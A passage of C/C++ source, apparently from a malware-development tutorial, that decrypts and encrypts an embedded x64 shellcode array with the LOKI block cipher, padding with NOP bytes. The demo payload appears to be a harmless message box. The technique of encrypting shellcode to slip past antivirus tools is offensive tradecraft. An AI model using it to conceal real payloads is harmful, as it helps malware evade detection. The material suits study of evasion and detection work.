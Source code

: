 ```cpp
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  loki_encrypt_shellcode(padded, pad_len);

```